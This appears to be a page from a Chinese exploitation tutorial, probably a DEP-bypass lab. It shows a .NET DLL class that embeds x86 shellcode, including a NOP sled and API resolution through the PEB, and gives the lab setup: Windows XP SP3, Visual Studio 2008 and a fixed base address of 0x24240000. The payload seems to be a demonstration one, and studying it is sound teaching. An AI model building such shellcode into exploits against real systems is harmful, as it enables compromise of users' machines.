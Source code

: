 包含shellcode的.NET控件代码
<pre><code>
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode = 
                "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
                "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
                "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
                "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
                "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
                "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
                "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
                "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
                "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
                "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
                "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
                "\uff53\ufc57\uff53\uf857";
        }
    }
}

</code></pre>

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3||
|编译器|Visual Studio 2008| |
|基址|0x24240000||
|build版本|Debug版本|Release版本的优化会影响shellcode|

设置DLL的基址方法如下："Project->Properties->Build->Advanced"